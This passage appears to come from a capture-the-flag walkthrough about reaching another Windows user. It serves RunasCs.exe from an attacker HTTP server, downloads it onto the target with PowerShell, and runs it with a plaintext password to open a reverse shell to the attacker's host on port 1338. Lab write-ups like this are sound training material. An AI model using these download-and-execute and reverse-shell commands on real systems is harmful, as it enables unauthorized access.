 

I need to go into `C.Bum` user , I enumerate this user via `net user C.Bum` command and see that this user doesn't belong to **'Remote Users**' group


It means that I can’t use WinRM to execute commands as C.Bum in PowerShell.


I need to add this user into `Remote Users` group, but I cannot use legitimate `runas.exe` , that's why I need to use [RunasCs](https://github.com/antonioCoco/RunasCs)

1.First, let's download this tool and open http.server to serve this file.
```bash
python3 -m http.server --bind 10.10.16.6 8080
```

![Alt text](img/image-28.png)

2.Then, we need to get this file from our http server.
```bash
powershell -c wget http://10.10.16.6:8080/RunasCs.exe -outfile r.exe
```

![Alt text](img/image-27.png)


Now, execute this `binary` as below.
```bash
.\r.exe C.Bum Tikkycoll_431012284 -r 10.10.16.6:1338 cmd
```
